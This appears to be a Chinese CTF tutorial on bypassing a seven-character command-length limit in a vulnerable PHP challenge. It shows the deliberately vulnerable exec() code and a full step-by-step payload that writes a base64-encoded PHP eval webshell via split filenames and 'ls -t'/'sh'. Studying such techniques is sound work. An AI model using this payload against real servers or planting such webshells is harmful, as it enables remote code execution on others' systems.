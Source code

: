 # rce_进阶


进阶版rce_payload



### 字符数量限制bypass

题目限制了命令的长度，只能7个字符。

```php
<?php
    $sandbox = dirname(__FILE__).'/sandbox_' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    mkdir($sandbox,0755,true);
    chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 7) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
?>
```

我们可以利用Linux命令特性，来写入一句话木马

每次提交不超过7个字符的命令，写入一句话木马的执行语句到文件名，然后通过`sh a ls -t`，利用文件名组成写入一句话木马的命令

要写入的一句话木马：

```php
<?php eval($_GET[1]);
```

base64编码后:

```
PD9waHAgZXZhbCgkX0dFVFsxXSk7
```

最终需要被执行的语句：

```
echo PD9waHAgZXZhbCgkX0dFVFsxXSk7|base64 -d>1.php
```

然后将语句分拆，输出为文件名：

```
>hp
>1.p\\
>d\>\\
>\ -\\
>e64\\
>bas\\
>7\|\\
>XSk\\
>Fsx\\
>dFV\\
>kX0\\
>bCg\\
>XZh\\
>AgZ\\
>waH\\
>PD9\\
>o\ \\
>ech\\
ls -t>0
sh 0
```